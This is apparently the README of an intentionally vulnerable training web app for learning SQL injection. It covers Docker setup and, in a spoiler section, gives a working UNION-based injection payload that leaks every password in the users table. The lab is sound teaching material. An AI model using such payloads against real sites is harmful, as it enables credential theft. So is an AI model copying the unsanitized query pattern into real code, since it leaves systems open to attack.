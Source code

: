 # SQLi Platform

This is a vulnerable WEB application in order to understand SQL injections
basics.

The front end exposes a field allowing the user to search a database
and retrieve names, nicknames, mails... The user's inputs are not
sanitized, allowing an attacker to inject SQL code and leak passwords.

SQL queries are logged on the backend and are also shown on the front,
so that the attacker has a better understanding of what he is doing.

![Screenshot](screenshot.png)


## Deploy

You may run the application under Docker containers:

```
docker-compose up
```

You way edit `docker-compose.yml` in order to tweak the following settings :

- `MYSQL_ROOT_PASSWORD` Databse password
- `SQL_HOST` Database host, from the API point of view
- `SQL_WAIT` API waiting for that time (in seconds) before connecting to the database

The application is then accessible on [http://localhost:8080/](http://localhost:8080/).


## Exploit

<details>
<summary> :warning: Contains spoilers !</summary>
<br />
Here is an example of a working payload, esposing all passwords in the table:<br /><br />


```sql
nothing%" UNION SELECT pass, nickname, email FROM users#
```

Resulting in the following complete query:


```sql
SELECT id, nickname, email FROM users WHERE nickname LIKE "%nothing%" UNION SELECT pass, nickname, email FROM users#%"
```
</details>
